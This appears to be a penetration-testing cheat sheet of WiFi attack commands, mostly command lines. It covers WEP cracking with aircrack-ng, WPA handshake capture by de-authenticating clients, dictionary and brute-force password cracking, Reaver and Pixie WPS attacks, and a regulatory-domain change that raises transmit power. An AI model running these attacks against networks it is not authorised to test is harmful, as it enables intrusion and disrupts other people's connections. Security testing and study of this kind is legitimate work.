 ```yaml
---
layout: default
title: WiFi Attacks
parent: Attacks
nav_order: 5
---
```


# WiFi Attacks
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Basics
List available interfaces
```
ip link show
```
List available interfaces
```
iwconfig
```
Kill annoying processes
```
airmon-ng check kill
```
Monitor mode
```
airmon-ng start wlan0
```
Managed mode
```
airmon-ng stop wlan0mon
```
Scan (default 2.4Ghz)
```
airodump-ng wlan0mon
```
Scan 5Ghz
```
airodump-ng wlan0mon --band a
```
Put in mode monitor
```
iwconfig wlan0 mode monitor
```
Quit mode monitor - managed mode
```
iwconfig wlan0mon mode managed 
```
Scan available wifis
```
iw dev wlan0 scan | grep "^BSS\|SSID\|WSP\|Authentication\|WPS\|WPA"
```


## ﻿WEP attack with aircrack-ng suite.
```
airmon-ng start wlan0 <AP Channel>
airodump-ng -c <AP Channel> --bssid <AP MAC> -w <filename> wlan0mon
aireplay-ng -1 0 -e <AP ESSID> -a <AP MAC> -h <Attacker MAC> wlan0mon
aireplay-ng -3 -b <AP MAC> -h <Attacker MAC> wlan0mon # ARP Replay
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> wlan0mon
aircrack-ng -0 <filename.cap>
```

```
airmon-ng start wlan0 <AP Channel>
airodump-ng -c <AP Channel> --bssid <AP MAC> -w <filename> wlan0mon
aireplay-ng -1 0 -e <AP ESSID> -a <AP MAC> -h <Attacker MAC> wlan0mon
aireplay-ng -5 -b <AP MAC> -h <Attacker MAC> wlan0mon
packetforge-ng -0 -a <AP MAC> -h <Attacker MAC> -l <Source IP> -k <Dest IP> -y <xor filename> -w <packet filename>
tcpdump -n -vvv -e -s0 -r <packet filename>
aireplay-ng -2 -r <packet filename> wlan0mon
aircrack-ng -0 <filename>
```

## WPA PSK attack with aircrack-ng suite.
```
airmon-ng start wlan0 <AP Channel>
airodump-ng -c <AP Channel> --bssid <AP MAC> -w <filename> wlan0mon
aireplay-ng -0 1 -a <AP MAC> -c <Victim MAC> wlan0mon
aircrack-ng -0 -w <wordlist> <capture file>
```
You can capture the handshake passively (it takes time) or de-authenticate a client.

De-authentication attack
```
aireplay-ng --deauth 3 -a <BSSID> -c <client_mac> mon0
```
Deauth every client  
```
aireplay-ng -0 5 -a <bssid> mon0
```

## Dictionary Attack
```
aircrack-ng -w passwords.lst capture-01.cap
```

## Brute force Attack
```
crunch 8 8 0123456789 | aircrack-ng -e "Name of Wireless Network" -w - /root/home/wpa2.eapol.cap
```

## CoWPAtty Attack
Wordlist mode:
```
cowpatty -r <Capture file> -f <wordlist> -2 -s <AP ESSID>
```
PMK mode:
```
genpmk -f <wordlist> -d <hash filename> -s <AP ESSID>
cowpatty -r <Capture file> -d <hash filename> -2 -s <AP ESSID>
```

## Rogue Access Point Testing

```
# ifconfig wlan0 down
# iw reg set BO
# iwconfig wlan0 txpower 0
# ifconfig wlan0 up
# airmon-ng start wlan0
# airodump-ng --write capture mon0

ifconfig wlan1 down
iw reg set BO
ifconfig wlan1 up
iwconfig wlan1 channel 13
iwconfig wlan1 txpower 30
iwconfig wlan1 rate 11M auto
```


## Reaver
```
airmon-ng start wlan0
airodump-ng wlan0
reaver -i mon0 -b 8D:AE:9D:65:1F:B2 -vv
reaver -i mon0 -b 8D:AE:9D:65:1F:B2 -S --no-nacks -d7 -vv -c 1
```

## Pixie WPS

```
airmon-ng check
airmon-ng start wlan0
airodump-ng wlan0mon --wps
reaver -i wlan0mon -c 11 -b 00:00:00:00:00:00 -K 1
```